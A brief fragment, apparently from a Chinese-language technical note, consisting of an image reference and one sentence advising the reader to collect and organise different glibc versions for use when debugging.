

然后就是看自己的库存多不多了，把不同的glibc版本整理出来，调试的时候用上就好
